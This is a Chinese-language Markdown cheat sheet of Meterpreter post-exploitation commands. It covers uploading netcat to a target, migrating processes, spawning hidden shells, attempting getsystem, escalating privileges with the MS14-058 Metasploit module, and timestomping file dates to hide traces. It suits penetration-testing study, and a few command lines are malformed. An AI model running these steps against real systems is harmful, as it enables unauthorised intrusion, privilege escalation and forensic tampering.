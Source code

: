 

##0x02 Go on:)

####基本命令：

    background  # 让meterpreter处于后台模式  
    sessions -i number   # 与会话进行交互，number表示第n个session  
    quit  # 退出会话  
    shell # 获得命令行
    cat c:\\boot.ini   # 查看文件内容  
    getwd # 查看当前工作目录 work directory  
    upload /root/Desktop/netcat.exe c:\\ # 上传文件到目标机上  
    download 0xfa.txt /root/Desktop/   # 下载文件到本机上  
    edit c:\\boot.ini  # 编辑文件  
    search -d d:\\www -f web.config # search 文件 
    ps # 查看当前活跃进程  
	migrate  pid # 将Meterpreter会话移植到进程数位pid的进程中  
	execute -H -i -f cmd.exe # 创建新进程cmd.exe，-H不可见，-i交互  
	getpid # 获取当前进程的pid  
	kill pid # 杀死进程  
	getuid # 查看权限  
	sysinfo # 查看目标机系统信息，如机器名，操作系统等  
	getsystem #提权操作
    timestompc:/a.doc-c"9/27/2015 14:22:11" #修改文件的创建时间


####迁移进程

	  meterpreter > ps
  
  自行选择PID
  
	  meterpreter > migrate pid
  
####提权操作

- getsystem 大部分都会失败 他只尝试了4个Payload。


    meterpreter > getuid
    
    Server username: Testing\Croxy
    
    meterpreter > getsystem
    
    [-] priv_elevate_getsystem: Operation failed: Access is denied.
    
    

-  使用MS14-058之类的Exp进行提权


	   meterpreter > background
   
	   [*] Backgrounding session 3..`
   
	   msf exploit(handler) > use exploit/windows/local/ms14_058_track_popup_menu`
   
	   msf exploit(ms14_058_track_popup_menu) > set SESSION 3`
	
![](http://7xicbb.com1.z0.glb.clouddn.com/payload.png)
